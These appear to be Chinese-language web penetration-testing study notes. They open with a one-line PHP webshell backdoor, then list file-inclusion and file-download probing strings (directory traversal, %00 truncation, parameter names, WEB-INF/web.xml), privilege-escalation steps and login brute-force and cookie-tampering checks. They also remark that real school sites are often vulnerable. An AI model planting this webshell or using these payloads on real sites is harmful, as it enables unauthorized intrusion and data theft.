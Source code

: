 一句话Webshell后门

```php
<?php
 @eval($_POST['x']);
?>
```

### 文件操作

1. 文件被解析，则是文件包含漏洞
2. 显示源代码，则是文件读取漏洞
3. 提示文件下载，则是文件下载漏洞

#### 文件包含漏洞

包含函数如include(filename);

本地包含：无限制，有限制 %00截断 长度截断
远程包含：有限制，无限制  

[php伪协议](https://www.cnblogs.com/endust/p/11804767.html)

#### 文件下载读取

#文件名，参数值，目录符号
read.xxx?filename=
down.xxx?filename=
readfile.xxx?file=
downfile.xxx?file=
../ ..\ ./ .\等
%00 ? %23 %20 .等
&readpath=、&filepath=、&path=、&inputfile=、&url=、&data=、&readfile=、&menu=、META-lNF=、WEB-INF/web.xml

真实环境：有些学校网站下载课表，有文件下载漏洞

### 逻辑越权(SRC比较多)

#### 水平垂直越权，未授权

#水平，垂直越权，未授权访问
垂直越权：使用低权限身份的账号，发送高权限账号才能有的请求，获得其高权限的操作。
前提条件：获取的添加用户的数据包
怎么来的数据包：
1.普通用户前端有操作界面可以抓取数据包
2.通过网站源码本地搭建自己去模拟抓取
3.盲猜

#### 登录脆弱及支付篡改

#登录应用功能点安全问题
1.登录点暴力破解
2.HTTP/HTTPS传输
3.Cookie脆弱点验证（黑盒情况下非常难，抓数据包尝试修改cookie）
4.Session固定点测试
5.验证密文比对安全测试
